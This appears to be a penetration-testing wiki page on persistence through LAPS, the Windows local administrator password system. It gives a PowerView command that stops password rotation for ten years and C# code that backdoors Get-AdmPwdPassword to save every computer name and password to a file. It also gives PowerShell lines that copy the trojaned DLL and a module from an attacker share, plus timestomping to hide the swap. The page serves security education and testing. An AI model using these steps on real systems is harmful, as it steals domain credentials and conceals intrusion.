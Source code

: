 # LAPS

## Theory

The "Local Administrator Password Solution" (LAPS) provides management of local account passwords of domain joined computers. Passwords are stored in Active Directory (AD) and protected by ACL, so only eligible users can read it or request its reset.

This page is about persitence, you may have a look on [LAPS-based attacks](../../ad/movement/dacl/readlapspassword.md) and [LAPS enumeration](../recon/objects-and-settings/laps.md).

## Practice

### Never Expire Password

LAPS may be configured to automatically update a computers password on a regular basis. If we have compromised a computer and elevated to SYSTEM we can update the value to never expire for 10 years as a means of persistence.

{% tabs %}
{% tab title="Windows" %}
With the following commands, using `Set-DomainObject` from [Powersploit](https://github.com/PowerShellMafia/PowerSploit/)'s [Powerview](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1), we can update the `ms-Mcs-AdmPwdExpirationTime` value to never expire for 10 years.

```powershell
# PowerView
Set-DomainObject -Identity computer01 -Set @{'ms-Mcs-AdmPwdExpirationTime' = '136257686710000000'} -Verbose
Setting 'ms-Mcs-AdmPwdExpirationTime' to '136257686710000000' for object '[HostName$]'
```

{% hint style="info" %}
The password will still reset if an **admin** uses the **`Reset-AdmPwdPassword`** cmdlet; or if **Do not allow password expiration time longer than required by policy** is enabled in the LAPS GPO.
{% endhint %}
{% endtab %}
{% endtabs %}

### LAPS Backdoor

The original source code for LAPS can be found [here](https://github.com/GreyCorbel/admpwd). It's possible to put a backdoor in the code (inside the `Get-AdmPwdPassword` method in `Main/AdmPwd.PS/Main.cs` for example) that will somehow **exfiltrate new passwords or store them somewhere**.

{% tabs %}
{% tab title="Backdoor" %}
Add some evil code inside the [Get-AdmPwdPassword](https://github.com/GreyCorbel/admpwd/blob/1461172b2002ce37e31c221f6532a8ce7de1a295/Main/AdmPwd.PS/Main.cs#L140) function and Recompile [admpwd](https://github.com/GreyCorbel/admpwd):&#x20;

```csharp
//Example of backdoor in Get-AdmPwdPassword
PasswordInfo pi = DirectoryUtils.GetPasswordInfo(dn);
var line = $"{pi.ComputerName} : {pi.Password}";
System.IO.File.AppendAllText(@"C:\Temp\LAPS.txt", line);
WriteObject(pi);
```

After compiling it, upload the new  `AdmPwd.PS.dll` to the machine in `C:\Tools\admpwd\Main\AdmPwd.PS\bin\Debug\AdmPwd.PS.dll` (and change the modification time using [Set-MacAttribute.ps1](https://github.com/obscuresec/PowerShell/blob/master/Set-MacAttribute.ps1)).

```powershell
#Replace AdmPwd.PS.dll
cd C:\Windows\System32\WindowsPowerShell\v1.0\Modules\AdmPwd.PS
copy \\<ATTACKING_IP\share\AdmPwd.PS.dll .

#Timestomp
Import-Module \\<ATTACKING_IP\share\Set-MacAttribute.ps1
Set-MacAttribute -FilePath C:\Windows\System32\WindowsPowerShell\v1.0\Modules\AdmPwd.PS\AdmPwd.PS.dll -OldFilePath C:\Windows\System32\WindowsPowerShell\v1.0\Modules\AdmPwd.PS\AdmPwd.PS.psd1
#Or manuall Timestomp
PowerShell.exe -com {$file=(gi C:\Windows\System32\WindowsPowerShell\v1.0\Modules\AdmPwd.PS\AdmPwd.PS.dll);$date='01/03/2006 12:12 pm';$file.LastWriteTime=$date;$file.LastAccessTime=$date;$file.CreationTime=$date}
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/laps#backdoor" %}

{% embed url="https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/laps#backdoor" %}
